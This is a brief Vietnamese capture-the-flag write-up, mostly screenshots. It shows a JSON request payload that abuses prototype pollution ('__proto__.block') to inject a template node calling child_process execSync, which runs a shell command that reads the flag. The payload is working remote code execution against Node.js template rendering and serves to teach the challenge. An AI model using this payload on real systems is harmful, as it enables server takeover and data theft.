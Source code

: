 ![image](https://github.com/user-attachments/assets/0112092a-3ec6-4174-9874-945cc7623c8f)

Đây là src code và giao diện của nó:

![image](https://github.com/user-attachments/assets/d5ef1de5-474c-499f-98b7-2cdca3620439)

![image](https://github.com/user-attachments/assets/87a6f279-5990-43a2-923d-3e83d97e7ee6)

Để thêm cái req ở đây cho dễ nhìn:

![image](https://github.com/user-attachments/assets/cceb1073-26a5-4a5c-8b6b-572429fd6c39)

Thêm payload `{
	"artist.name":"Haigh","__proto__.block": {
	"type": "Text", 
	"line": "process.mainModule.require('child_process').execSync('$(cat flag)')"
	}
}` vào là ra flag 

![image](https://github.com/user-attachments/assets/c3e6215a-308c-4b25-b5cc-5370204e7db2)





